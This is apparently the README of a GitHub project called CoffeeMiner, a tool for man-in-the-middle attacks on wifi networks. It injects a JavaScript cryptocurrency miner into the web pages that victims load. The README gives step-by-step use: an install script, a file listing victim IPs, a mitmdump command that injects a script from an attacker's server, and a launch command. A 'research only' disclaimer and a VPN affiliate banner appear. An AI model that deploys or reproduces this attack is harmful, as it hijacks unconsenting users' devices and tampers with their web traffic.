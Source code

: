 # CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool in wifi networks

**Warning: this project is for academic/research purposes only.**

A blog post about this project can be read here: http://arnaucode.com/blog/coffeeminer-hacking-wifi-cryptocurrency-miner.html

![coffeeMiner](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-logo-small.png "coffeeMiner")

## Concept
- Performs a MITM attack to all selected victims
- Injects a js script in all the HTML pages requested by the victims
- The js script injected contains a cryptocurrency miner
- All the devices victims connected to the Lan network, will be mining for the CoffeeMiner


## Use
- install.sh
```
bash install.sh
```
- edit victims.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```

![network](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/arnaucode/coffeeMiner/blob/master/virtualbox_scenario_instructions.md



![demo](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-demo-cutted.gif "demo")


</BR>

<!-- Banner -->
<div align="center">
<a href="https://www.purevpn.com/order-now.php?aff=44922&amp;a_bid=bbd0f893" target="_blank" ><img src="https://affiliates.purevpn.com/accounts/default1/6hb82wqa2l/bbd0f893.jpg" alt="Best VPN" title="Best VPN" width="728" height="90" /></a>
</BR></BR>
</div>


